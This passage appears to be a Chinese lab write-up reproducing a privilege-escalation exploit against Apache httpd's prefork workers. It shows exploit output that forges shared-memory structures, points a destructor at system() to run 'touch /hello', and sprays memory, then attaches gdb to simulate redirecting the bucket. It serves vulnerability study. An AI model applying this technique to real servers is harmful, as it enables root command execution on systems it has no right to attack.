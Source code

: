 #### 让服务器执行恶意php代码

```
➜  ~ curl 127.0.0.1
PID: 19896
/dev/zero start addr:0x7f1f62a32000
/dev/zero end addr:0x7f1f62a4a000
self parent struct addr:0x7f1f62a32040
parent arr addr:0x7f1f62a32040
heap start addr:0xf59000
heap end addr:0x1022000
libapr text start addr:0x7f1f61ffa000
libapr text end addr:0x7f1f6202f000
libapr data start addr:0x7f1f6222e000
libapr data end addr:0x7f1f6222f000
all_buckets addr:0xff0c18
evil prefork_child_bucket start addr:0x7f1f62a321a8
evil prefork_child_bucket end addr:0x7f1f62a321e0
evil zend_array start addr:0x7f1f62a321e0
evil zend_array end addr:0x7f1f62a32218
evil mutex_methods start addr:0x7f1f62a32218
evil mutex_methods end addr:0x7f1f62a32268
evil string: touch /hello len:16
evil string start addr:0x7f1f62a32268
evil string end addr:0x7f1f62a32278
zend_object_std_dtor function addr:0x7f1f5c03d300
system function addr:0x7f1f617a94c0
child_init(0x7f1f62a32248) => zend_object_std_dtor
pDestructor(0x7f1f62a32210) => system
meth(0x7f1f62a321e8) => mutex_mthods_struct
mutex(0x7f1f62a321b8) => zend_array struct
properties(0x7f1f62a321d8) => zend_array struct
ar_data(0x7f1f62a321f0) => evil string

Spraying the shared memory start

evil_shm_start:0x7f1f62a32278
evil_shm_end:0x7f1f62a4a000
evil_shm_size:17d88
evil_shm_mid_addr:0x7f1f62a3e140
bucket:fe3ec349aa5
```

此时，共享内存中，已经被我们的恶意数据给填充。

#### 为通过gdb模拟修改bucket指向我们的恶意结构做准备

```
[root@bogon john]# ps -aux | grep httpd
root      19895  0.0  0.2 285296 10652 ?        Ss   14:27   0:00 /usr/local/httpd//bin/httpd -k start
www       19896  0.0  0.2 287512  9348 ?        S    14:27   0:00 /usr/local/httpd//bin/httpd -k start
www       19897  0.0  0.1 287512  7616 ?        S    14:27   0:00 /usr/local/httpd//bin/httpd -k start
www       19898  0.0  0.1 287512  7616 ?        S    14:27   0:00 /usr/local/httpd//bin/httpd -k start
www       19899  0.0  0.1 287512  7616 ?        S    14:27   0:00 /usr/local/httpd//bin/httpd -k start
www       19900  0.0  0.1 287512  7616 ?        S    14:27   0:00 /usr/local/httpd//bin/httpd -k start
root      20112  0.0  0.0 112708   980 pts/2    R+   14:30   0:00 grep --color=auto httpd
[root@bogon john]# gdb attach 19895
(gdb) break child_main
Breakpoint 1 at 0x46c000: file prefork.c, line 380.
```